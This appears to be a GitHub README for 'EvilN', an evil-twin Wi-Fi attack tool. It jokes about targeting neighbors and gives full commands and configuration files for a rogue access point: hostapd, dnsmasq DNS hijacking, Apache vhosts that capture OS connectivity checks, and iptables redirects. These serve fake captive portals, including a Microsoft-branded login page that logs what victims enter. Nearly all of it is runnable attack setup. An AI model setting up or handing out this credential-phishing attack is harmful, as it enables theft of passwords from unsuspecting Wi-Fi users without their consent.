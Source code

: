 # EvilN -> Evil-Neighbor

if you love your neighbors, this tool is for you :)

Just kiding (not really... ), 

I wrote it just for helping you with your Penetration testing/Red Team assesment

!ANY USE OF THIS TOOL IS AT YOUR OWN RISK!

I recommend working with kali linux, preferably from VMware, and to get a better result, 
use dual band (--dual), but for this you will need two wifi adapters - two alfa.

## If you like things done authomatically, Use:

### Dual Band (2.4GHz and 5GHz):
- iface1 assosiated to -channel2.4 (2.4GHz)
- iface2 assosiated to -channel5 (5GHz)
```python
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --dual --iface1 wlan1 --iface2 wlan0 --channel2.4 1 --channel5 36 --ssid "MyLan" --network 10.0.0.0/24 --CaptivePortal default
```

### 2.4GHz Single:
```python
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 1 --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --band 2.4 --iface wlan0 --ssid "MyLan" --channel 6 --network 10.0.0.0/24 --CaptivePortal default
```

### 5GHz Single:
```python
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 36 --network 10.0.0.0/24 --CaptivePortal microsoft
python3 EvilN.py --band 5 --iface wlan1 --ssid "MyLan" --channel 40 --network 10.0.0.0/24 --CaptivePortal default
```

## If you like things done manually, Use:

### 1) Installation all pachages:
```bash
sudo apt update
sudo apt install -y apache2 php libapache2-mod-php
sudo apt install -y hostapd dnsmasq lighttpd php
```

### 2) Setting up wlan0 Interface:
```bash
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip addr add 192.168.50.1/24 dev wlan0
sudo ip link set wlan0 up
```

### 3) configure dnsmasq.conf file:
```bash
interface=wlan0
bind-interfaces
no-resolv
log-queries

dhcp-range=192.168.50.10,192.168.50.100,12h
dhcp-option=3,192.168.50.1
dhcp-option=6,192.168.50.1

address=/#/192.168.50.1

address=/captive.apple.com/192.168.50.1
address=/www.msftconnecttest.com/192.168.50.1
address=/connectivitycheck.gstatic.com/192.168.50.1
```

### 4.A) configure hostapd.conf file (2.4 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=g
channel=6
auth_algs=1
wmm_enabled=0
```

### 4.B) configure hostapd.conf file (5 GHz):
```bash
interface=wlan0
driver=nl80211
ssid=TestNetworkName 
hw_mode=a
channel=36
auth_algs=1
wmm_enabled=1
```

### 5) configure a2enmod:
```bash
sudo systemctl start apache2
sudo a2enmod rewrite
sudo a2enmod headers
sudo systemctl restart apache2
```

### 5) Create captive Foles:
```bash
sudo mkdir -p /var/www/captive
```

### 6.A) Create Web Captive Portal (Default):
```bash
sudo mv index.html /var/www/captive/
sudo mv save.php /var/www/captive/
```

### 6.B) Create Web Captive Portal (Microsoft):
```bash
sudo mv Microsoft/index.html /var/www/captive/
sudo mv Microsoft/save.php /var/www/captive/
sudo mv Microsoft/password.php /var/www/captive/
sudo mv Microsoft/save2.php /var/www/captive/
sudo mv Microsoft/microsoft.svg /var/www/captive/
```

### 7) Create log file:
```bash
sudo touch /var/log/ca.log
```

### 8) Permission for file:
```bash
sudo chown www-data:www-data /var/log/ca.log
sudo chmod 640 /var/log/ca.log
```

### 9.A) Create Vhost (default):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive
    <Directory /var/www/captive>
        AllowOverride All
        Require all granted
    </Directory>

    # iOS/macOS
    Alias /hotspot-detect.html /var/www/captive/index.html
    # Android
    Alias /generate_204 /var/www/captive/index.html
    # Windows
    Alias /connecttest.txt /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/save\.php$
    RewriteRule ^.*$ /index.html [L]

    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
</VirtualHost>
```

### 9.B) Create Vhost (Microsoft):
```bash
nano /etc/apache2/sites-available/captive.conf
```

```bash
<VirtualHost *:80>
    ServerName captive.portal
    ServerAlias *
    DocumentRoot /var/www/captive

    <Directory /var/www/captive>
        AllowOverride None
        Require all granted
        Options -MultiViews
    </Directory>

    Alias /hotspot-detect.html /var/www/captive/index.html
    Alias /generate_204       /var/www/captive/index.html
    Alias /connecttest.txt    /var/www/captive/index.html

    RewriteEngine On
    RewriteCond %{REQUEST_URI} !^/(hotspot-detect\.html|generate_204|connecttest\.txt)$
    RewriteRule ^/?(save\.php|password\.php|save2\.php|microsoft\.svg)$ - [L]

    RewriteCond %{REQUEST_FILENAME} -f [OR]
    RewriteCond %{REQUEST_FILENAME} -d
    RewriteRule ^ - [L]
    RewriteRule ^ /index.html [L]
    Header always set Cache-Control "no-store, no-cache, must-revalidate, max-age=0"
    Header always set Pragma "no-cache"
    Header always set Expires "0"
    Header always set X-VHost "captive-portal"
    AddType image/svg+xml .svg .svgz
</VirtualHost>
```

### 10) Start a2ensite:
```bash
sudo a2ensite captive.conf
sudo a2dissite 000-default.conf
sudo systemctl reload apache2
```


### 11) Create IpTables:
```bash
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -A PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -A PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
```

### 12) start:
```bash
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### Kill the process:
```bash
sudo pkill dnsmasq
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 80 -j REDIRECT --to-ports 80
sudo iptables -t nat -D PREROUTING -i wlan0 -p udp --dport 53 -j REDIRECT --to-ports 53
sudo iptables -t nat -D PREROUTING -i wlan0 -p tcp --dport 53 -j REDIRECT --to-ports 53
sudo rm dnsmasq.conf
sudo rm hostapd.conf
sudo rm /etc/apache2/sites-available/captive.conf
sudo rm /var/log/ca.log
sudo rm -r /var/www/captive/
sudo systemctl stop apache2
sudo ip link set wlan0 down
sudo ip addr flush dev wlan0
sudo ip link set wlan0 up
systemctl start NetworkManager
```
